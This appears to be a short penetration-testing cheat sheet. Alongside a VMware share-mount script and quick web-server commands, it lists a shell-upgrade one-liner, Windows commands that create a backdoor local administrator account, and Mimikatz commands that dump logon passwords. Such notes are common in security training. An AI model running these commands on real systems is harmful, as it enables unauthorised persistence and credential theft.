 ### Linux VM - Mounting a Windows Share - Script ###
```
#!/bin/bash

vmware-hgfsclient | while read folder; do
  echo "[i] Mounting ${folder}   (/mnt/hgfs/${folder})"
  mkdir -p "/mnt/hgfs/${folder}"
  umount -f "/mnt/hgfs/${folder}" 2>/dev/null
  vmhgfs-fuse -o allow_other -o auto_unmount ".host:/${folder}" "/mnt/hgfs/${folder}"
done

sleep 2s
```


### Simple Web Servers

>python3 -m http.server

>python -m SimpleHTTPServer 80


### Shell Upgrade!

>python -c "import pty; pty.spawn('/bin/bash')"

>/bin/bash -i


### Post Exploitation

Add new user and add to local admin group

> net user gary password /add

> net localgroup administrators gary /add



## Get Passwords

> privilege::debug

> sekurlsa::logonpasswords

## Set GB keyboard in Linux
> setxkbmap -layout gb
